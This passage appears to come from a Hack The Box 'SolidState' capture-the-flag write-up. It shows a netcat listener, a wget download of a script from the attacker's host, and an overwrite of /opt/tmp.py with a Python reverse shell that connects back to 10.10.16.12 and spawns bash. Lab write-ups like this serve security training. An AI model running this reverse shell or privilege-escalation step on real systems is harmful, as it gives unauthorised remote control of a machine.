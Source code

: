 ```sh
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}

<br />
Start a netcat listener.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/solidstate]
└─$ sudo nc -nlvp 443                         
[sudo] password for kali: 
listening on [any] 443 ...
```
{% endraw %}

<br />
Transfer the tmp.py to the victim machine.

{% raw %}
```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ wget 10.10.16.12:8000/tmp.py
wget 10.10.16.12:8000/tmp.py
--2025-02-15 19:38:54--  http://10.10.16.12:8000/tmp.py
Connecting to 10.10.16.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 204 [text/x-python]
Saving to: ‘tmp.py’

     0K                                                       100%  236K=0.001s

2025-02-15 19:38:54 (236 KB/s) - ‘tmp.py’ saved [204/204]
```
{% endraw %}

<br />
Copy the file to overwrite the /opt/tmp.py file.

{% raw %}
```sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ cp tmp.py /opt/tmp.py
cp tmp.py /opt/tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ cat /opt/tmp.py
cat /opt/tmp.py
import socket,subprocess,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.12",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```
{% endraw %}

